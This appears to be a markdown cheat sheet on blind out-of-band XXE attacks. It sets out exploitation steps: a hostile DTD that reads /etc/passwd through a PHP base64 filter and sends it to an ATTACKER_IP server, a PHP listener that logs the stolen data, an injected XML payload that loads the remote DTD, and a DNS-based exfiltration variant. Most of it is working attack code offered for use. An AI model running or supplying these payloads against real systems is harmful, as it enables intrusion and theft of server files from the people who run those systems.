 ### **1. Out-of-Band (OOB) XXE Attacks**

Used when **no XML output or error** is visible in the response

#### **Goal**: Force the web app to send file content to an attacker-controlled server

---

### **2. Exploitation Steps**

#### **(1) Host Local DTD for OOB Exfiltration**

**xxe.dtd**:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://ATTACKER_IP:8000/?content=%file;'>">
```

**Serve via PHP:**
```bash
php -S 0.0.0.0:8000
```

**index.php:**
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

---

#### **(2) Inject XML Payload to Target**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://ATTACKER_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

---
#### **(3) Results**

- Target sends base64 content to `http://ATTACKER_IP:8000/?content=...`
- PHP server logs decoded content to terminal

---

### **3. DNS OOB Exfiltration (Alternative)**

- Use DNS request to leak data:
```xml
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://ENCODED_DATA.our.domain.com'>">
```
- Use `tcpdump` or DNS logging tools to capture incoming queries
- Decode the base64 subdomain to get file contents

---
### 4. Notes**

- Works in fully **blind scenarios**
- Works with both **base64 encoded content** and **PHP filters**
- DNS method useful in **restricted outbound HTTP** scenarios
- Ensure your system can receive inbound traffic (port 8000 open)

